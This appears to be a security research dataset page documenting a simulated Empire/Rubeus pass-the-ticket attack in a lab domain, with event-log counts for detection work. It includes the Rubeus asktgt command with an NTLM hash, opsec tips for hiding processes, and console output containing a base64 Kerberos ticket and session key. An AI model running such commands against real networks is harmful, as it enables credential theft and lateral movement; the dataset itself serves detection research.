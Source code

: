 
# Empire Rubeus PTT

The asktgt action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4, /aes128, /aes256, or /des). A /password flag can also be used instead of a hash - in this case /enctype:X will default to RC4 for the exchange, with des|aes128|aes256 as options. If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:0xA.. flag will apply the ticket to the specified logon session ID (elevation needed) instead of the current logon session.

Note that no elevated privileges are needed on the host to request TGTs or apply them to the current logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the /createnetonly:C:\X.exe parameter (which hides the process by default unless the /show flag is specified), or request the ticket and apply it to another logon session with ptt /luid:0xA.. [Reference](https://github.com/GhostPack/Rubeus)

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_rubeus_asktgt_ptt.tar.gz](./empire_rubeus_asktgt_ptt.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19145126

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             334 |
| Security                                 | Filtering Platform Connection                          |             301 |
| Security                                 | Token Right Adjusted Events                            |             180 |
| Security                                 | User Account Management                                |              51 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Group Membership                                       |               9 |
| Security                                 | Logoff                                                 |               9 |
| Security                                 | Logon                                                  |               9 |
| Security                                 | Special Logon                                          |               9 |
| Security                                 | Process Termination                                    |               7 |
| Security                                 | Sensitive Privilege Use                                |               6 |
| Security                                 | File Share                                             |               1 |
| Security                                 | Kerberos Authentication Service                        |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             436 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             104 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              90 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              83 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              21 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              20 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              14 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               2 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             279 |

## Empire Activity

```
Rubeus.exe asktgt /user:Mmidge /rc4:b415baa073a14f81f8c89a2a384f4a68 /ptt
```

```
[*] Tasked 2MES3XN6 to run TASK_SHELL
[*] Agent 2MES3XN6 tasked with task ID 21
(Empire: 2MES3XN6) > ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b415baa073a14f81f8c89a2a384f4a68
[*] Using domain controller: HFDC01.shire.com (172.18.39.5)
[*] Building AS-REQ (w/ preauth) for: 'shire.com\Mmidge'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5DCCBOCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+KADAgEFoQsbCVNISVJFLkNPTaIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJc2hpcmUuY29to4IDwjCCA76gAwIBEqEDAgECooIDsASCA6xLDFM5i+GcjKhK
      ix5DoHwWPlrrbj4nPOcTyK/umBEnffx9hz7tu3acyQU127mvFR7u0JO3h6U6FPrKPz2iJ6v3sx5AYGM6
      Imf0J2NBWb3+AU0WmuOBCa3k/BL+jl49isw6CuWHKrqyOk7SaoRORdd9G0hDv5zpHeF5Nzfz4dQ3GqmO
      W2ORZuTQR868MYEFYnCIjY+wNf/ve9Cie6isW170KSEMPrWdQbeSFMu6KtJaCNLTc2800JTO3ObrOZUW
      zylDRelTgBY4FCTyBUaseF45EWwFyiMeeABhgUZ1iFPGezsplcczGpaYB19bLz2r89j5k+3IJGzyOcA9
      hECNycNVzycIcU4SUtKtxqiRLoPqfPjHq8codY1npbUsovsW6wEi25lgFxzlVdxF2Bek368qBU1B1s9g
      CL06GUSjlfjPj9Heb7exTr9r+4j4JL+qVZaqlBtAQ4J38CKNJ9RdZME/9wRg6I/E15P8NNUAr7IOyF6S
      cYlNQ07uRFRKBgi30JSdBC7CSe2x546Jrrd17YQtDOHbw1WFP7HvYgdT+Miuit/WoRttWmNTEv4vj6oD
      +AuTrQKxnhbebef6MXXsR4ouDrBIlIw6r5T476ezkbNJeQwB6oryMUOsI3wu3DDFdRD7ZBY869fSC7Xe
      1+6vRO4Vu/mUXYzw9xkJ0C7X+c4ljJetCZ/YV3zoc6Tw5WLjtfFJ0HuFdIxxOEj8xK0BoyGwnDz3fOGC
      mEjH47U/w0EsUdBmnsZzRTujrTwGFbm/oCjOV9Dgae/aVLe0A+TSrWH2H8aKFmGeczrtTgEkGZDJyudm
      bVdeymTc0bv8AT8s0moOKc64dhtib10LPnakbWDOSQOydi/abwuIaAB6+21F3cmZ9lq5/7e1LyYKWnxd
      ATHPz+M9kWJi+xeqombWvozrjM2uIozFik7nY0rMdrbd/ItlML7bCuOuybksFe/1mmwscWvCoTOePzNS
      NU2znzc8vDOSfaE5WLI9c1hJVjkarx9iL+kSM7N3yQEXkuwQuTY5Yswx1bht28sKjsU+Q0dZxdhNeErd
      lJekqyf5NAKI2fmawmWBmzcXm7NDRATgDf3N9tpiTOW0x0Blv2F+SWXparZ06E5wdqNsV4l2Yf9x6yOp
      exrQvjCznKbpbh0u1rlhm0Ya8yieDqbCKEIzxIk1IjYwx/4OQ6fdGAm6SjF+rH/Pnyh/o5X4DxLSeGEy
      LPDjuDBHuReqj4UP//bhH7r5UptZuQ+cZ5liu58eo4HLMIHIoAMCAQCigcAEgb19gbowgbeggbQwgbEw
      ga6gGzAZoAMCARehEgQQfj5vhePBJY0eMPFDHvkIxKELGwlTSElSRS5DT02iEzARoAMCAQGhCjAIGwZN
      bWlkZ2WjBwMFAEDhAAClERgPMjAxOTAzMTkxODU1NDlaphEYDzIwMTkwMzIwMDQ1NTQ5WqcRGA8yMDE5
      MDMyNjE4NTU0OVqoCxsJU0hJUkUuQ09NqR4wHKADAgECoRUwExsGa3JidGd0GwlzaGlyZS5jb20=

[*] Action: Import Ticket
[+] Ticket successfully imported!

[*] Action: Describe Ticket

  UserName              :  Mmidge
  UserRealm             :  SHIRE.COM
  ServiceName           :  krbtgt/shire.com
  ServiceRealm          :  SHIRE.COM
  StartTime             :  3/19/2019 1:55:49 PM
  EndTime               :  3/19/2019 11:55:49 PM
  RenewTill             :  3/26/2019 1:55:49 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  fj5vhePBJY0eMPFDHvkIxA==


..Command execution completed.

(Empire: 2MES3XN6) > 
```